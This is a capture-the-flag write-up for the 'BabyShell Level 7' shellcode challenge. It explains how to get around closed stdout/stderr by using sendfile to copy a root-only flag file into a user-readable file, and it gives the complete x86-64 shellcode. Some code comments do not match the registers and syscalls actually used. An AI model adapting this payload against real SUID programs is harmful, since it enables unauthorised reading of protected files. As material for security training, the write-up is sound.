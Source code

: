 # BabyShell Level 7
Level 7 ! This level was kinda cool not gonna lie, although i am pretty sure i ended up doing it an intended way...

The challenges closes `stdout` and `stderr`, so outputting the flag to the screen won't be possible in this challenge,... well i think so.

This is when i got the idea of opening 2 file descriptors (`flag.txt`, `a.out`) and use the `sendfile` systemcall to send the content of the first file descriptor `flag.txt` to the second file `a.out`, we will need to set the right permissions on the file because since the program runs with SUID bit enabled, it will output the file with root permissions and group `hacker`. 

We can set the flags to `S_IRGRP` on our open call to the `a.out` file and this will open the file with the right permissions needed, another thing you gonna need to do is to open the file in mode `O_CREAT | O_RDWR` because we want the file to be created if it doesn't already exist. Alternatively you can just `touch` a file in the `/tmp` directory, call it a.out and it should be able to open the file in the right mode.

To solve this challenge i used the following shellcode :
```x86asm
.global _start
_start:
.intel_syntax noprefix
    # Open
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rsi, 0x02
    mov rax, 2
    syscall
    # Store file descriptor inside r6
    mov r10, rax

    # Open
    mov ebx, 0x74756f2e
    shl rbx, 8
    mov bl, 0x61
    push rbx
    mov rdi, rsp
    mov rsi, 0x02
    or rsi, 0x40
    mov rdx, 32
    mov rax, 2
    syscall
    # Store file descriptor inside r7
    mov r9, rax

    # Read
    mov rdi, r9
    mov rsi, r10
    mov rdx, 0
    mov r10, 100
    mov rax, 40
    syscall

    mov r10, rsi
    # Close flag.txt
    mov rdi, r9
    mov rax, 3
    syscall
    # Close a.out
    mov rdi, r10
    mov rax, 3
    syscall

    # Exit
    mov rax, 60
    mov rdi, 5
    syscall
```
